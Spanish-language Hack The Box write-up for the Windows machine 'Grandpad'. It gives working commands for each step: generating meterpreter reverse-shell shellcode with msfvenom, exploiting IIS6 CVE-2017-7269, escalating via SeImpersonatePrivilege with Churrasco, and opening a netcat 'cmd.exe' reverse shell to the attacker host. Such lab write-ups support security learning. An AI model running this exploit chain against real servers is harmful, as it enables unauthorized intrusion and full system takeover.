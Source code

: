 ## HTB-Grandpad
- Maquina: Windows
- Level: Easy
- IP: 10.10.10.14

## Herramientas a utilizar:

- `nmap`
- https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
- https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- https://github.com/Re4son/Churrasco/
- https://github.com/int0x33/nc.exe
- `msfvenom`
- `msconsole`

#### NMAP
```
nmap -sC -sV -o scan_grandpad.txt 10.10.10.14
```
#### MSFVEDOM
> Crearemos nuestro shellcode con:
```
msfvenom -p windows/meterpreter/reverse_tcp -f raw -e x86/alpha_mixed LHOST=10.10.14.17 LPORT=443 > shellcode
```
> Descargaremos nuestro exploit
`git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269`

Desde otro Terminal el cual llamaremos `Terminal#2`ejecutaremos msfconsole
```
msfconsole
use exploit/multi/handler
set lhost 10.10.14.17
set lport 443
run
```

Nuestro terminal principal el cual llamaremos `Terminal#1` y ejecutamos
```
python iis6_r_shell 10.10.10.14 80 10.10.14.17 443
```
Luego de ejecutar lo del `Terminal#1` solo debemos ir al `Terminal#2` y ya deberiamos tener shell.
Verificamos con `whoami` veremos que somos.
`nt authority\network service`

Ahora nos vamos a `cd ../../../` luego `cd Documents and settings`
y veremos que tenemos dos usuario `Adminsitrator` y `Harry`. pero no tenemos acceso a ninguno.

Volvemos a `c:\` aqui encontraremos un directorio llamado `wmpub` el cual debemos verificar que privilegios tenemos.
```
icacls wmpub
whoami /priv
```
Vemos que tenemos el privilegio de:

|SeChangeNotifyPrivilege| Bypass traverse checking |   Enabled |
|-----------------|-----------------|-----------------|
|SeImpersonatePrivilege| Impersonate a client after authentication| Enabled 
|SeCreateGlobalPrivilege|Create global objects |Enabled|

>Pero el que nos llama a la atecion es el {SeImpersonatePrivilege} para esto debemos utilizar y descargar `https://github.com/Re4son/Churrasco/ `
`churrasco.exe` y `nc.exe` los cuales debemos subir a grandpad 
```
git clone https://github.com/Re4son/Churrasco/
git clone https://github.com/int0x33/nc.exe
mv nc.exe nc
cd nc
mv nc.exe ../
mv nc.exe Churrasco
cd Churrasco
impacket-smbserver share ./
```
Ahora desde grandpad ejecutamos
```
copy \\10.10.14.17\share\nc.exe .
copy \\10.10.14.17\share\churrasco.exe c.exe
```
Ahora volvemos abrir un `nc` en nuestra Terminal por el puerto 443
```
rlwrap nc -lnvp 443
```

Ahora desde grandpad ejecutamos.
```
.\c.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.14.17 443"
```
```
cd C:\Documents and Settings
type harry\Desktop\user.txt
type Administrator\desktop\root.txt
```
